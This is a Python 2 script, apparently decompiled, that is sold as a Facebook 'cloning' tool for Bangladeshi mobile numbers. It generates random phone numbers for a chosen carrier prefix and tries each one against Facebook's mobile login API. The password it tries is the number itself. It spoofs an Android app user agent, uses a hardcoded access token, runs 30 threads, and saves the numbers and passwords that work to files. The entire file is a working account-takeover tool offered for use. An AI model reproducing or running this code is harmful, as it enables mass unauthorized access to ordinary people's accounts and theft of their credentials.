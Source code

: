 mport os, sys, time, datetime, random, hashlib, re, threading, json, urllib, cookielib, getpass
os.system('rm -rf .txt')

def psb(z):
    for e in z + '\n':
        sys.stdout.write(e)
        sys.stdout.flush()
        time.sleep(0.03)


os.system('clear')
psb('\x1b[1;32mBANGLADESH AYAN 11 DIGIT CLONING START PLEASE WAIT ..........')
for n in range(9999):
    nmbr = random.randint(1111111, 9999999)
    sys.stdout = open('.txt', 'a')
    print nmbr
    sys.stdout.flush()

try:
    import requests
except ImportError:
    os.system('pip2 install requests')

try:
    import mechanize
except ImportError:
    os.system('pip2 install mechanize')
    time.sleep(1)
    os.system('python2 C')

from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser
os.system('clear')
reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
br.addheaders = [
 ('user-agent', 'Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-v7a;]')]

def exb():
    print
    os.sys.exit()


def psb(z):
    for e in z + '\n':
        sys.stdout.write(e)
        sys.stdout.flush()
        time.sleep(0.03)


def t():
    time.sleep(1)


def cb():
    os.system('clear')


logo = '\n|Y88b   d88P 88888888888 .d88888b.  888b     d888 \n| Y88b d88P      888    d88P" "Y88b 8888b   d8888 \n|Y88o88P       888    888     888 88888b.d88888 \n|   Y888P        888    888     888 888Y88888P888 \n|   Y888P        888    888     888 888Y88888P888 \n|   d888b        888    888     888 888 Y888P 888 \n|  d88888b       888    888     888 888  Y8P  888 \n| d88P Y88b      888    Y88b. .d88P 888   "   888 \n|d88P   Y88b     888     "Y88888P"  888       888 '

back = 0
successful = []
cpb = []
oks = []
id = []

def menu():
    os.system('clear')
    print logo
    print ''
    print 'AUTHOR   : Ayan Sagor'
    print 'FACEBOOK : mrPyschoX.Tom'
    print 'GITHUB     : github.com/mrpychoX'
    print ''
    print 50* '-'
    print '[1]  \x1b[1;96mGP'
    print '[2]  \x1b[1;92mRobi'
    print '[3]  \x1b[1;96mAirtel'
    print '[4]  \x1b[1;92mBanglalink'
    print '[5]  \x1b[1;93mTeletalk'
    print '[0]  \x1b[1;95mExit            '
    print 50 * '-'
    action()


def action():
    global cpb
    global oks
    bch = raw_input('\n  ===>   ')
    if bch == '':
        print
        action()
    elif bch == '1':
        os.system('clear')
        print logo
        print 50* '-'
        print ''
        print '170,171, 172, 173, 174, 175, 176, 177, 178, 179,130,131, 132, 133, 134, 135, 136, 137, 138, 139'
        print ''
        try:
            c = raw_input(' Choose Code  : ')
            k = '+880'
            idlist = '.txt'
            for line in open(idlist, 'r').readlines():
                id.append(line.strip())

        except IOError:
            print '[!] File Not Found'
            raw_input('\n[ Back ]')
            menu()

    elif bch == '2':
        os.system('clear')
        print logo
        print 50* '-'
        print ''
        print '180,181, 182, 183, 184, 185, 186, 187, 188, 189'
        print ''
        try:
            c = raw_input(' Choose Code  : ')
            k = '+880'
            idlist = '.txt'
            for line in open(idlist, 'r').readlines():
                id.append(line.strip())

        except IOError:
            print '[!] File Not Found'
            raw_input('\n[ Back ]')
            menu()

    elif bch == '3':
        os.system('clear')
        print logo
        print 50* '-'
        print ''
        print '160,161, 162, 163, 164, 165, 166, 167, 168, 169'
        print ''
        try:
            c = raw_input(' Choose Code  : ')
            k = '+880'
            idlist = '.txt'
            for line in open(idlist, 'r').readlines():
                id.append(line.strip())

        except IOError:
            print '[!] File Not Found'
            raw_input('\n[ Back ]')
            menu()

    elif bch == '4':
        os.system('clear')
        print logo
        print 50* '-'
        print ''
        print '190,191, 192, 193, 194, 195, 196, 197, 198, 199,140,141, 142, 143, 144, 145, 146, 147, 148, 149'
        print ''
        try:
            c = raw_input(' Choose Code  : ')
            k = '+880'
            idlist = '.txt'
            for line in open(idlist, 'r').readlines():
                id.append(line.strip())

        except IOError:
            print '[!] File Not Found'
            raw_input('\n[ Back ]')
            menu()

    elif bch == '5':
        os.system('clear')
        print logo
        print 50* '-'
        print ''
        print '150,151, 152, 153, 154, 155, 156, 157, 158, 159'
        print ''
        try:
            c = raw_input(' Choose Code  : ')
            k = '+880'
            idlist = '.txt'
            for line in open(idlist, 'r').readlines():
                id.append(line.strip())

        except IOError:
            print '[!] File Not Found'
            raw_input('\n[ Back ]')
            menu()

    elif bch == '0':
        exb()
    else:
        print
        action()
    xxx = str(len(id))
    print ''
    print 50 * '-'
    psb('[\xe2\x9c\x93] Total Numbers: ' + xxx)
    time.sleep(0.5)
    psb('[\xe2\x9c\x93] Please wait, process is running ...')
    time.sleep(0.5)
    psb('[!] To Stop Process Press CTRL Then Press z')
    time.sleep(0.5)
    psb(50 * '-')
    time.sleep(0.5)
    print
    50 * '-'
    print

    def main(arg):
        user = arg
        try:
            os.mkdir('save')
        except OSError:
            pass

        try:
            result = k + c + user
            digi11 = result[3:14]
            pass1 = digi11
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' + k + c + user + '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;92m[AYAN-OKY]\x1b[0m ' + k + c + user + ' | ' + pass1 + '\n' + '\n'
                okb = open('save/successfull.txt', 'a')
                okb.write(k + c + user + '|' + pass1 + '\n')
                okb.close()
                oks.append(c + user + pass1)
            elif 'www.facebook.com' in q['error_msg']:
                print '\x1b[1;93m[Ayan-CP]\x1b[1;97m ' + k + c + user + ' | ' + pass1 + '\x1b[1;93m[Open After 03 Days]\x1b[0m \n'
                cps = open('save/checkpoint.txt', 'a')
                cps.write(k + c + user + '|' + pass1 + '\n')
                cps.close()
                cpb.append(c + user + pass1)
        except:
            pass

    p = ThreadPool(30)
    p.map(main, id)
    print
    50 * '-'
    print
    print
    '[\xe2\x9c\x93] Total OK/CP : ' + str(len(oks)) + '/' + str(len(cpb))
    print '[\xe2\x9c\x93] CP File Has Been Saved : save/checkpoint.txt'
    raw_input('\n[Press Enter To Go Back]')
    os.system('python2 Bangla.py')


if __name__ == '__main__':
    menu()
# okay decompiling UF11.pyc

